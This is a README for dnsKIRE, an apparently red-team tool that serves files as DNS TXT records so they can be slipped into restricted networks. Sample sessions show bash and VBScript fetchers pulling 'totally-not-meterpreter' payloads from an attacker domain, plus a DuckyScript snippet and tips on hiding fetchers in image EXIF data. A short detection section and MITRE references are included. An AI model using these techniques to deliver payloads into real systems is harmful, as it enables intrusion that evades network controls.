




# dnsKIRE

## Introduction

### What is this?

dnsKIRE is a tool that allows you to serve up files over DNS by slicing and converting them into DNS TXT records. It generates a variety of pre-configured fetcher scripts and methods to be able to retrieve the file(s) from e.g. restricted environments but where recursive DNS is possible to the Internet or where dnsKIRE can be reached. A simple web interface instruments the Bind9 DNS server configuration files using a number of shell scripts. The dedicated server running dnsKIRE will need to have a DNS subdomain delegated to it or have its IP address set as the authoritative server for your exfiltration domain(s).

### Is this new?

No. DNS was designed to serve up information in the form of hostnames, IP addresses and free text and those capabilities are used on a daily basis to ensure the Internet functions as it should. Arbitrary communication methods such as DNS tunneling e.g. dnsKIRE for files, SSH over DNS (e.g. OzymanDNS, iodine) or DNS used as malware C2 (Command and Control) method or as payload delivery method are already known for decades and detection methods already exist for them - see the 'Detection' section. 

### Doesn’t this already exist?

Various tools already exist to communicate single files over DNS by using popular libraries. I wanted something that would offer a number of easy to use infiltration techniques that go beyond just PowerShell, would not re-implement DNS at the risk of being detected and would (hopefully) be easy to install and use.

### Why didn't you add any compression/encryption?

The idea is to be able to infiltrate files into an environment where external web access is not possible and decompression or decryption tools might not be available e.g. kiosk systems, embedded system front-ends. Rather than this tool restricting how files could be decrypted when generating the fetcher scripts, you should adapt to the target and see what Live-Off-The-Land tools are available e.g. zip/7z/gpg or through programming languages to see if encryption/decryption would be possible. Be aware that some packaging tools are better than others when it comes to stealth e.g. don’t use zip files if you can avoid it as content file names might be exposed and always use AES encryption when possible. 

### What are the limitations?

dnsKIRE nor Bind9 were created to process or host a high number of big files so watch out when using a lot of big (multi-Megabyte) files in high volumes. If you really need to serve a lot of files over DNS then consider using another tool or clone the instance into multiple copies.

dnsKIRE is rather dumb in that it downloads the file slices in sequence. Any out of order retrieval or failure of a single request will result in a corrupt file where you will have to rerun the fetcher.

Although dnsKIRE is written in nodeJS, it is not meant to be a multi-user tool where it can be used with multiple people simultanously due to potentially laggy shell scripts. 

## Installation

### Prerequisites

 - Fresh Ubuntu 22.04.1 LTS running from a cloud VPS where you have root privileges
 - At least one DNS domain or a DNS subdomain delegated to the server or its IP address set as the authoritative server for your exfiltration domain(s)
 - Port 53 (UDP and TCP) needs to be available to the Internet for the retrieval of the files
 - Port 8081/TCP is the dnsKIRE management port and should not be available from the Internet!

### Setup

 - Install Ubuntu 22.04.1 LTS
 - Add the user `dnskire`
 - Add the user to `/etc/sudoers` with: 
 - ```dnskire ALL=(ALL:ALL) NOPASSWD: ALL```
 - Add your desired SSH key to `~/.ssh/authorized_keys` and make sure the file ownership permissions are set to `dnskire`: 
 - ```mkdir /home/dnskire/.ssh```
 - << add key to `/home/dnskire/.ssh/authorized_keys` >>
 - ```chown -R dnskire:dnskire /home/dnskire/.ssh/```
 - Exit and log on as `dnskire`
 - ```git clone https://github.com/0xtosh/dnskire.git dnskire-install```
 - ```cd dnskire-install```
 - ```bash setup.sh```
 - ```cd dnskire```
 - ```node dnskire.js```

### DNS Setup

Delegate a subdomain to the server running dnsKIRE. E.g. in the Bind9 configuration or DNS manager of your hosting provider, delegate a domain to the IP address of your dnsKIRE server.
```
$TTL    300
$ORIGIN legitcdn.com.

@       IN SOA  ns1.someisp.com. hostmaster.someisp.com. (
                2022090900      ; serial - update after changes!
                8H              ; refresh
                2H              ; retry
                1W              ; expiry
                10M )           ; minimum

@        IN      NS      ns1.legitcdn.com.

; Change IP address to that of dnsKIRE host
ns1             IN      A       1.3.3.7 

; Domain that will have to be added to dnsKIRE
$ORIGIN x.legitcdn.com. 

@       IN NS ns1.legitcdn.com.
```

## Usage

### Starting

Starting dnsKIRE from the command line. Then point a web browser to the URL. Be sure to firewall off the management port.

```
dnskire@ubuntu22-rt-1:~/dnskire$ node dnskire.js

██████╗ ███╗   ██╗███████╗██╗  ██╗██╗██████╗ ███████╗
██╔══██╗████╗  ██║██╔════╝██║ ██╔╝██║██╔══██╗██╔════╝
██║  ██║██╔██╗ ██║███████╗█████╔╝ ██║██████╔╝█████╗
██║  ██║██║╚██╗██║╚════██║██╔═██╗ ██║██╔══██╗██╔══╝
██████╔╝██║ ╚████║███████║██║  ██╗██║██║  ██║███████╗
╚═════╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝╚═╝╚═╝  ╚═╝╚══════
├─ https://github.com/0xtosh/dnskire ─ 2022 ────────
│
└─ Ready to chop! Go to https://1.3.3.7:8081
```

### Adding a domain

Add your domains and subdomains and click `Update`. If you want to reset the database and clear all the Bind9 configuration files then click `Reset All`. Note that this will also delete all currently hosted files.



### Adding a file



You add a file by:

  - Typing in a subdomain name as an identifier. Only letters and numbers allowed
  - Selecting the transfer method. Always try with UDP+TCP first as more data can be transmitted this way with fewer requests. UDP only will result in a high number of requests that will take a long time to retrieve. If you need to use UDP only, ensure that your files are small in size
  - Clicking the Upload button


### File Fetchers



File fetchers are generated for each file:

  - PowerShell fetcher script
  - VBScript (use cscript.exe) fetcher script using cmd/nslookup
  - Bash fetcher script using host or dig
  - Python3 fetcher script using python-dns

Fetcher facilitators:

  - DuckyScript versions for all of the above fetchers
  - Generated images with the EXIF tag "Comment" filled in with the individual payloads for all fetchers

Clicking on the Fully Qualified Domain Name link of the file will return the total list of DNS requests that are required for retrieving the file.

### Examples

#### Linux/UNIX file fetching using `bash` and `host` or `dig`
```
webapp@production-server:/tmp$ cat > get.sh
^D
webapp@production-server:/tmp$ bash get.sh
Retrieving totally-not-meterpreter.gpg using "host" command...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping 5 seconds...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping 1 seconds...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping 3 seconds...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Done.
webapp-123@production-server:/tmp$ ls
totally-not-meterpreter.gpg
```

#### Windows VBScript execution of fetcher script using `cscript`
```
C:\webapp\files\users\public_upload> cscript get-333.x.legitcdn.com.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

Retrieving file totally-not-meterpreter.7z...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping for 4...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping for 3...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping for 3...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Waiting for DNS responses to finish...
Converting...
Done.

C:\webapp\files\users\public_upload> dir
totally-not-meterpreter.7z
```
#### Ducky Script

Example generated Ducky Script to be used with a HID emulation device e.g. Flipper Zero, Rubber Ducky, Teensy HID, etc
```
STRING $outfile = "beacon.7z"
ENTER
STRING $subdomain = "cdn"
ENTER
STRING $subs = @('lo')
ENTER
STRING $domain = "x.legitcdn.com"
ENTER
STRING $dnshexfile = "tmp.txt"
ENTER
STRING $jittermax = 5
ENTER
STRING $jittertime = Get-Random -Minimum 1 -Maximum $jittermax
ENTER
```

#### EXIF fetcher code extraction on Linux/UNIX

On Linux/UNIX you can extract the DNS fetcher from the EXIF data of the image if that is the only way you can get code on the target system:

```webapp@production-server:/app/upload/images$ strings -w sh-cdn.x.legitcdn.com.png | sed -n '5,50p;51q' > get.sh```

#### EXIF fetcher code extraction on Windows

On Windows you can use notepad or another application that can open a file as a text file from which you can carve the fetcher script:



## Detection

Create detection rules for: 
  - Repeated TXT queries coming from workstations and servers
  - Repeated TXT queries to the same top level domain
  - Differences and uniformity of TXT query reply length 

More information:

  - [https://attack.mitre.org/techniques/T1048/](https://attack.mitre.org/techniques/T1048/)
  - [https://attack.mitre.org/techniques/T1095/](https://attack.mitre.org/techniques/T1095/)

## Other notes

### DNS query sleep intervals between requests
Edit `scripts/mkzoneslices.sh` and adjust the `JITTERTIME` variable if the current file fetcher setting of a random 1-5 second delay between requests is not sufficient

## Author

Written by Tom Van de Wiele during the COVID-19 pandemic lock-down. Twitter: [@0xtosh](https://twitter.com/0xtosh)

